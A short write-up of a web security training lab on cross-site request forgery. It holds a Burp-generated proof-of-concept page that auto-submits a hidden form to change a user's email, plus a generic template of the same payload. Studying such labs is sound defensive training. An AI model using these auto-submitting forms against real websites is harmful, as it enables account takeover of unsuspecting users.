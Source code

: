 ## CSRF vulnerability with no defenses
- POST request to /my-account/change-email does not have any CSRF protections. 
- We utilize Burp Suite to generate a CSRF PoC to use on our exploit server to solve the lab. 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5500bb03f12bbb808b087b0084007c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="fake&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Miscellaneous Notes
- Basic CSRF PoC template:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
